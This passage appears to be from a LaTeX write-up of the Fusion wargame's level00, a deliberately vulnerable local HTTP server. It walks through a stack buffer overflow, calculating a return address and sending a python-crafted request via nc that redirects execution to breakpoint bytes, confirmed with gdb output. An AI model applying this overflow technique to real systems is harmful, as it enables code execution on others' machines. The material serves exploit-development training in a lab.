 So, if we were to place some bytes after ``HTTP/1.1", then not only
will this not ruin our psuedo-http compliance, but these bytes will
not be checked in any way, as our overflow bytes passed to \texttt{realpath(path, resolved)} were.
Let's explore this with the magical byte \texttt{0xcc}. According to
the Intel Manuals\footnote{TODO: add reference to intel manuals here}, this
is for the \texttt{INT 3} instruction, used by debuggers to set breakpoints.
To redirect execution to our test shellcode, we'll need to calculate it.
With some simple algebra, we simply add the number of characters
we've written to our buffer to the buffer's starting address. So, 
including the ``GET", overflow buffer and ``HTTP/1.1\textbackslash n", we have 157
bytes, giving a target address of \texttt{0xbffff8f8+157 = 0xbffff995},
assuming we jump to the byte immediately following the ``HTTP/1.1\textbackslash n".

\begin{lstlisting}
fusion@fusion:~/level00\$ python -c 'print "GET " + "A"*139 + "\x95\xf9\xff\xbf" + " HTTP/1.1\n" + "\xcc"*2' | nc localhost 20000
[debug] buffer is at 0xbffff8f8 :-)
fusion@fusion:~/level00\$ sudo rm /core
fusion@fusion:~/level00\$ sudo gdb -q --core /core
[New LWP 2499]
Core was generated by `/opt/fusion/bin/level00'.
Program terminated with signal 5, Trace/breakpoint trap.
#0  0xbffff996 in ?? ()
\end{lstlisting}

Excellent! Noticing that we crashed because of an unhandled
breakpoint trap, and that the instruction pointer is immediately
after where we redirected to, we know that we have succesfully
redirected execution to our payload. All that is left is to
create a suitable payload for our purposes, and we have
a full exploit. 

This is nice, but nothing here strictly relates to ASLR. We
had some extra work in sending a buffer over the network while satisfying
certain conditions, but this was hardly a problem. More 
importantly, the address of the buffer, which is just given
to us, does not change between executions as it would under ASLR.
This is why we move to the next challenge, \texttt{level01}. 
It is identical to the previous one, but with a form of ASLR, and 
won't give us hints.

